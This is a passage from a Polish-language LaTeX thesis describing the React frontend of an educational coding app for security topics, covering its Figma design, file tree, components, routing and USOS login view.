    
\includegraphics[width=1\linewidth]{images/frontend/figma/views/code_view.png}
    \caption{Widok kodowania.}
\end{figure}

\subsubsection{Niewykorzystane elementy}

Część ze stworzonych atomów nie została zaimplementowana w docelowym frontendzie. Przygotowane były atomy oraz wykorzystujące je rozwijane menu boczne i przyciski do filtrowania i sortowania listy zadań. Były przygotowane również pełne ekrany korzystające z tych komponentów. Niewykorzystanie tych elementów wynika m.in. z ograniczonego zakresu aplikacji, w tym niewielkiej liczby tematów i zadań w obrębie poszczególnych tematów. Z założenia, menu boczne z uproszczonym kontekstem tematów i zadań miało ułatwić nawigację w przypadku obfitości dostępnych treści, podobny cel miały mieć filtrowanie i sortowanie zadań. Implementacja tych funkcjonalności byłaby sensownym kierunkiem rozwojowym, gdy kafle zaczęłyby wychodzić poza ekran i trzeba by było przewijać listę. Innym niewykorzystanym elementem jest pasek postępu nauki teorii, który według projektu Figma zakładał, że teoria będzie rozdzielona na segmenty, tak samo jak zadania. W finalnym kształcie projektu, teoria dla danego tematu jest pojedynczym plikiem markdown, więc śledzenie postępu jest niepotrzebne.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.5\linewidth]{images/frontend/figma/atoms/unused_atoms.png}
    \caption{Niewykorzystane atomy.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.25\linewidth]{images/frontend/figma/molecules/unused_molecules.png}
    \caption{Niewykorzystane menu boczne.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{images/frontend/figma/organisms/unused_organisms.png}
    \caption{Niewykorzystane organizmy.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{images/frontend/figma/views/topic_list_menu_view.png}
    \caption{Widok listy tematów z niezaimplementowanym menu bocznym.}
\end{figure}

\subsection{Szczegóły implementacyjne}

\subsubsection{Struktura projektu}
Korzeń projektu zawiera pliki odpowiadające za konfigurację środowiska Node.js, folder \texttt{Theory} przechowujący pliki markdown z zagadnieniami teoretycznymi oraz właściwy folder \texttt{src} z kodem źródłowym. Kod źródłowy podzielony jest na komponenty, szablony, strony oraz pliki pomocnicze.

\subsubsection{Pełne drzewo projektu}
\begin{treebox}
\dirtree{%
.1 Projekt/.
.2 .env.
.2 .gitignore.
.2 Dockerfile.
.2 eslint.config.js.
.2 index.html.
.2 package-lock.json.
.2 package.json.
.2 README.md.
.2 vite.config.js.
.2 node\_modules/.
.2 src/.
.3 App.css.
.3 App.jsx.
.3 index.css.
.3 main.jsx.
.3 Components/.
.4 Button/.
.5 Button.jsx.
.5 Button.module.css.
.4 CodingSpace/.
.5 CodingSpace.module.css.
.5 Editor.jsx.
.5 FileTree.jsx.
.5 Instructions.jsx.
.5 Panel.jsx.
.5 Results.jsx.
.5 SideBar.jsx.
.4 ExerciseIcon/.
.5 ExerciseIcon.jsx.
.5 ExerciseIcon.module.css.
.4 Icon/.
.5 Icon.jsx.
.5 IconComponent.jsx.
.5 IconButton/.
.6 IconButton.jsx.
.6 IconButton.module.css.
.4 Label/.
.5 Label.jsx.
.5 Label.module.css.
.4 MarkdownPage/.
.5 MarkdownPage.jsx.
.5 MarkdownPage.module.css.
.4 TopBar/.
.5 TopBar.jsx.
.5 TopBar.module.css.
.4 TopicPanel/.
.5 TopicPanel.jsx.
.5 TopicPanel.module.css.
.3 Layouts/.
.4 Layout.jsx.
.4 ProtectedLayout.jsx.
.3 Pages/.
.4 CodingScreen/.
.5 CodingScreen.jsx.
.5 CodingScreen.module.css.
.4 ExercisesScreen/.
.5 ExercisesScreen.jsx.
.5 ExercisesScreen.module.css.
.4 LoginPage/.
.5 LoginPage.jsx.
.5 LoginPage.module.css.
.4 TheoryPage/.
.5 TheoryPage.jsx.
.5 TheoryPage.module.css.
.4 TopicsScreen/.
.5 TopicsScreen.jsx.
.5 TopicsScreen.module.css.
.3 Utility/.
.4 AuthorizationContext.jsx.
.4 CodingSpaceContext.jsx.
.4 Enums.js.
.4 textConvert.js.
.4 fakeAPI/.
.5 Exercises.js.
.5 files.js.
.2 Theory/.
.3 404.md.
.3 Buffer Overflow.md.
.3 Command Injection.md.
.3 Cross-Site Scripting (XSS).md.
.3 SQL Injection.md.
}
\end{treebox}

\subsubsection{Komponenty}
Folder z komponentami zawiera personalizowane komponenty wielokrotnegop użytku w React, stworzone w oparciu o wcześniej zaprojektowane makiety.
\begin{itemize}
    \item \textbf{Button} - przycisk;
    \item \textbf{CodingSpace} - elementy widoczne w widoku kodowania, w tym: 
    \begin{itemize}
        \item \textbf{Panel} - fragment widoku edytora, można zmieniać jego rozmiar i położenie;
        \item \textbf{SideBar} - belka boczna, do której można przypinać panele;
        \item \textbf{Editor} - edytor kodu bazujący na edytorze monaco;
        \item \textbf{FileTree} - panel z drzewkiem plików wykorzystywanych w zadaniu;
        \item \textbf{Instructions} - panel z opisem zadania;
        \item \textbf{Results} - panel z odpowiedzią wygenerowaną przez LLM;
    \end{itemize}
    \item \textbf{ExerciseIcon} - kafelek zadania;
    \item \textbf{Icon} - ikony statyczne i z funkcją przycisku;
    \item \textbf{Label} - etykiety;
    \item \textbf{MarkdownPage} - sekcja renderująca preformatowany tekst z pliku Markdown;
    \item \textbf{TopBar} - górna belka;
    \item \textbf{TopicPanel} - kafel tematu;
\end{itemize}

\subsubsection{Strony}
\begin{itemize}
    \item \textbf{LoginPage} - strona z przyciskiem do logowania przez USOS PW;
    \item \textbf{TopicsScreen} - strona wyświetlająca listę tematów;
    \item \textbf{TheoryPage} - strona wyświetlająca teorię dla danego tematu;
    \item \textbf{ExercisesScreen} - strona wyświetlająca listę zadań dla danego tematu;
    \item \textbf{CodingScreen} - widok z edytorem kodu do rozwiązywania zadań.
\end{itemize}

\subsubsection{Routing}
Główny punkt wejścia do aplikacji jest opisany w pliku \texttt{App.jsx}. Wykorzystuje on \texttt{createBrowserRouter} z biblioteki \texttt{react-router-dom} do zdefiniowania struktury adresów URL.

\textbf{Struktura adresów:}
\begin{itemize}
    \item \texttt{/} - przekierowanie do ekranu głównego lub ekranu logowania (gdy użytkownik nie jest zalogowany);
    \item \texttt{/login} - strona z przyciskiem do logowania przez USOS PW;
    \item Komponent \texttt{ProtectedLayout} zabezpiecza poniższe ścieżki:
    \begin{itemize}
        \item \texttt{/menu} - strona wyświetlająca listę tematów;
        \item \texttt{/menu/:topic} - strona wyświetlająca listę zadań dla danego tematu;
        \item \texttt{/menu/:topic/theory} - strona wyświetlająca teorię dla danego tematu;
        \item \texttt{/menu/:topic/:id} - widok z edytorem kodu do rozwiązywania zadań.
    \end{itemize}
\end{itemize}

Aplikacja wykorzystuje React Context do globalnego przechowywania stanu zalogowanego użytkownika.

\subsubsection{Style aplikacji}
Aplikacja korzysta ze spersonalizowanych, stałych CSS zdefiniowanych w pliku \texttt{index.css}. Określają one możliwe kroje i rozmiary czcionek oraz predefiniowane kolory, bazując wprost na stylach z projektu Figma. Każda grupa komponentów ma swój plik ze stylami \texttt{.module.css}.

\subsection{Widoki aplikacji}
\subsubsection{Widok logowania}
Kiedy niezalogowany użytkownik uruchamia aplikację, następuje przekierowanie do ekranu logowania z przyciskiem do logowania przez USOS. Kliknięcie przycisku przekierowuje użytkownika do CAS USOS PW, gdzie loguje się danymi do istniejącego konta w USOS PW. Pomyślne zalogowanie przekierowuje użytkownika z powrotem do aplikacji - konkretnie do widoku listy tematów. U góry ekranu wyświetla się górna belka z informacją o imieniu i nazwisku zalogowanego użytkownika. 

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{images/frontend/app/login_button.png}
    \caption{Ekran z przyciskiem do logowania przez USOS.}
\end{figure}

\begin{figure}[H]
    \centering
